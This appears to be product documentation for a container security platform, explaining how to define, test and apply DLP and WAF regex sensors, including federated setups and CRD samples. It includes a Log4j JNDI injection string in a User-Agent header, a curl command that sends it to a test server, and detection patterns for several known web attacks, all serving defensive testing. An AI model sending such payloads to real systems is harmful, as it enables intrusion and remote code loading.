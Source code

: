 = DLP & WAF Sensors
:page-opendocs-origin: /05.policy/09.dlp/09.dlp.md
:page-opendocs-slug:  /policy/dlp

== Data Loss Prevention (DLP) and Web Application Firewall (WAF)

DLP and WAF uses the Deep Packet Inspection (DPI) of {product-name} to inspect the network payloads of connections for sensitive data violations. {product-name} uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

DLP and WAF filtering are applied differently depending on the group(s) to which they are applied. In general, WAF filtering is applied to inbound and outbound connections except for internal traffic where only inbound filtering is applied. DLP filtering applies to inbound and outbound connections from a 'security domain', but not any internal connections within a security domain. See the detailed descriptions below.

Configuring DLP or WAF is a two step process:

. Define and test the sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet.
. Apply the desired sensor to a Group, in the Policy -> Groups screen.

=== WAF Sensors

WAF sensors represent inspection of network traffic to/from a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. In addition, any outbound (egress) connections external to the cluster will be inspected.

This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. For example, API security can be enforced on outbound connections to an external api service, allowing only GET requests and blocking POSTs.

Also note that, while similar to DLP, the inspection is for incoming traffic to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).

image:waf_sensors.png[waf]

=== DLP Sensors

DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.

image:sensors.png[dlp]

=== Configuring DLP and WAF sensors

The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:

* Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
* Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
* Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.

image:5_sensor_config.png[waf]

Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:

[,shell]
----
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
----

This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":

[,shell]
----
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
----

Adding a Not Have pattern removes the false positive:

[,shell]
----
istio\_(\w){5}
----

*_Sensors must be applied to a Group to become effective._*

=== Configuring Federated DLP and WAF Sensors

This is the general process for configuring a federated DLP or WAF sensor:

. Define and test the federated DLP/WAF sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet in the **Primary cluster -> Federated Policy ->  DLP Sensors or WAF Sensors** tab.
. Apply the desired sensor to a custom federated Group in the **Federated Policy -> Groups** tab.
. Check that the federated DLP/WAF sensor(s) are synced to the Managed cluster and work as expected.

==== Example

Define a federated DLP/WAF sensor(s) in a Primary cluster and then apply it to a custom federated Group, and then check that those sensors are applied to all Managed clusters.

Steps:

. Define the federated DLP/WAF sensor(s) in the Primary cluster in the relevant **DLP Sensors** or **WAF Sensors** tab:
+
image:federated_1.png[Federated WAF]
+
image:federated_2.png[Federated DLP]

. Apply the federated DLP/WAF sensor(s) to a custom federated Group in the **Federated Policy -> Groups** tab:
+
image:federated_3.png[Custom Federated Group]

. Check that the federated DLP/WAF sensor(s) are synced to the Managed clusters:
+
image:federated_4.png[Federated WAF]
+
image:federated_5.png[Federated DLP]

. In the Managed clusters, containers send out traffic which match the federated DLP/WAF sensor(s) pattern:
+
image:federated_6.png[Federated Container Traffic]

. After Step 4, DLP/WAF "Security Events" notifications are generated:
+
image:federated_7.png[DLP/WAF Security Notification Generation]

=== Applying DLP/WAF Sensors to Container Groups

To activate a DLP or WAF sensor, go to Policy -> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a Custom Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).

image:apply_dlp_group.png[group]

==== DLP/WAF Behavior Summary

* DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
* Any traffic passing in and out of a DLP group is scanned for pattern matches.
* Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
* Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
* Multiple alerts are generated for a single packet if it matches multiple rules.
* For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
* Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
* PCRE is used for pattern matching.
* Hyper scan library is used for efficient, scalable and high-performance pattern matching.

=== DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

* Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

=== Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

[,shell]
----
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
----

Also note that there are ways that attackers could bypass detection by such rules.

=== Testing the Log4j WAF Detection

In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

[,shell]
----
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
----

Using curl to POST data to server(container) can help to test WAF rule:

[,shell]
----
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
----

=== WAF Setup and Testing

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

xref:attachment$waf_test.zip[Download WAF test script]

=== Sample Alerts

==== DLP match in Discover or Monitor Mode

image:dlp4_alert_discover.png[DLPAlert]

==== DLP match in Protect Mode

image:dlp_5_protect.png[DLPProtect]

==== DLP Security Event Notification for Credit Card Match

image:dlp6_credit.png[DLPCredit]

[NOTE]
====
The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.
====

== Managing WAF Rules Using Import/Export or CRDs

It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
----
====

Sample CRD to apply a WAF sensor to a Group

.Click here for details
[%collapsible]
====
[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
----
====

See the xref:usingcrd.adoc[CRD section] for more details on working with CRDs.

== DLP/WAF Response Rules

Response rules based on DLP/WAF security events can be created in Policy ->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.

image:dlp7_response.png[DLPResponse]
